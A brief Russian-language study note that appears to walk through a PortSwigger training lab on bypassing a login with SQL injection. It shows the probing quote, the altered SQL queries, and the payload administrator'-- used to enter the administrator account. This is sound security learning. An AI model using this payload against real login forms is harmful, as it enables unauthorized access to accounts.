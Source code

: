 SQL injection

Цель: Войти в аккаунт администратора

Вставим ' в login, если страница сломается и вернет server error то он уязвим для SQLi


SELECT Firstname FROM users WHERE username = 'administrator' and password = 'administrator' 

SELECT Firstname FROM users WHERE username = ''' and password = 'administrator'

SELECT Firstname FROM users WHERE username = 'administrator'--' and password = 'administrator'

administrator'--     <--- Это наша полезная нагрузка

Ссылка на лаб:
https://portswigger.net/web-security/sql-injection/lab-login-bypass
